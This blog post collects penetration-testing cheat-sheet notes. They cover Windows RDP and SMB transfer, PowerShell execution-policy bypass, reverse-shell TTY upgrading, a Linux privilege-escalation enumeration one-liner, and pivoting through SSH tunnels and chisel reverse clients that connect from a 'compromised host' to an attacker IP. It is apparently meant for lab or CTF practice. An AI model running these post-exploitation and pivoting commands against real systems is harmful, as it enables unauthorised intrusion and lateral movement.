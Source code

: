 ## Oops...

New blog post!

Why? I've somehow managed to break my bparrot install on an old laptop...

There are 3 files that I want to keep, so for now they'll live here :)


---

### File 1 - Windows notes


#### RDP from Linux

```
xfreerdp /v:$vip /u:$user /p:$pass /cert:ignore /dynamic-resolution +clipboard
```

#### Transfer over SMB

On Linux
```
sudo -E ~/.local/bin/smbserver.py share $(pwd) -smb2support
```
On Windows
```
copy \\10.10.16.11\share\work.exe
```

#### POWERSHELL Policy Stuff
```
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

Or 

```
Get-Content -Raw <FILE> | iex
```

or 
```
powershell -EncodedCommand <Base64encodedcommands>
```

---

### File 2 - Low-Hanging Privilege Escalation on Linux


#### Try to Spawn a TTY

```
python -c 'import pty; pty.spawn("/bin/sh")' || python3 -c 'import pty; pty.spawn("/bin/sh")' || /usr/bin/script -qc /bin/sh /dev/null
```

Then type `CTRL+Z` to suspend the process and return to the main shell

Get the number of columns using 

```
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
```

Which should output something like
```
rows 24
columns 80
```
Return to the reverse shell using
```
stty raw -echo; fg
```

In the reverse shell set the correct number of terminals using

```
stty rows <ROWS> cols <COLUMNS>
```

So in this example
```
stty rows 24 cols 80
```

Then set the terminal using
```
export TERM=xterm-256color
```



#### Tiny privesc check

```
echo "--ID--";id;echo "--SUID--";find / -perm -u=s -type f 2>/dev/null; echo "--CAPABILITIES--"; getcap -r / 2>/dev/null; echo "--EXPORTS--"; cat /etc/exports;echo "--CRONTAB--"; cat /etc/crontab;echo "--APP ARMOR ENTRIES--";ls /etc/apparmor.d/; echo "--SUDO--"; sudo -l
```

### File 3 - Simple pivoting commands

#### Portforwarding

##### SSH
```
ssh -Nf -L <local_ip>:<local_port>:<destination_ip>:><remote_port> <user>@<IP>
```
For example to get access to a localhost **only** MySQL database on 10.20.30.40
```
ssh -Nf -L 127.0.0.1:3306:127.0.0.1:3306 victim@10.20.30.40
```
So any time you try to access **your** localhost on port 3306 it will instead go through the SSH tunnel to the SSH host's localhost on port 3306.

The first 127.0.0.1 is not needed, as it's implied. So you could shorten it using this
```
ssh -Nf -L 3306:127.0.0.1:3306 victim@10.20.30.40
```

You also don't need to use the same local port, as the remote port. So instead you could use the 33306 port.
```
ssh -Nf -L 33306:127.0.0.1:3306 victim@10.20.30.40
```

So now any traffic sent over 127.0.0.1:33306 will go through the SSH tunnel to 127.0.0.1:3306

This also doesn't need to be just to 127.0.0.1, so to access resources on an internal network, like an HTTP server with the IP 192.168.20.1, you can use this.
```
ssh -Nf -L 8000:192.168.20.1:80 victim@10.20.30.40
```

So any traffic sent to 127.0.0.1:8000 goes through the SSH tunnel and out to 192.168.20.1:80


##### Chisel

Setup a chisel server on **your** host using chisel

```
chisel server --port <PORT> --reverse
```

Then on the compromised server

```
chisel client <ATTACKER_IP>:<ATTACKER_PROXY_PORT> R:<LISTENING_IP>:<LISTEN_PORT>:<SEND_IP>:<SEND_PORT>
```

An example to access an internal server on 127.0.0.1:3389 on the compromised host (10.20.30.40) run

Linux host (10.10.10.10)
```
chisel server --port 1234 --reverse
```

Compromised host
```
chisel client 10.10.10.10:1234 R:127.0.0.1:4242:127.0.0.1:3389
```
Now any traffic sent on the Linux host to 127.0.0.1:4242 goes through chisel to the compromised host's 127.0.0.1:3389

#### Proxying

##### SSH
```
ssh -D <proxy_port> -Nf <user>@<victim_ip>
```
For example to setup a proxy on port 6666
```
ssh -D 6666 -Nf victim@10.20.30.40
```
##### Chisel

Setup a chisel server on **your** host using chisel

```
chisel server --port <PORT> --reverse --socks5
```

Then on the compromised server

```
chisel client <ATTACKER_IP>:<ATTACKER_PROXY_PORT> R:<PROXY_PORT>:SOCKS
```

An example to setup a proxy on port 7676.

Your host (10.10.10.10)
```
chisel server --port 1234 --reverse --socks
```

Compromised host
```
chisel client 10.10.10.10:1234 R:7676:SOCKS
```

##### Using the proxy

Now that we've got a SOCKS proxy setup, (let's just say that it's on port 8080) how do we use it?

###### Proxychains

ProxyChains is a UNIX program, that hooks network-related libc functions in dynamically linked programs via a preloaded DLL and redirects the connections through SOCKS4a/5 or HTTP proxies. [Source](https://github.com/haad/proxychains)

Basically it hooks **LIBC** and forces connections made by **LIBC** to use the proxy.
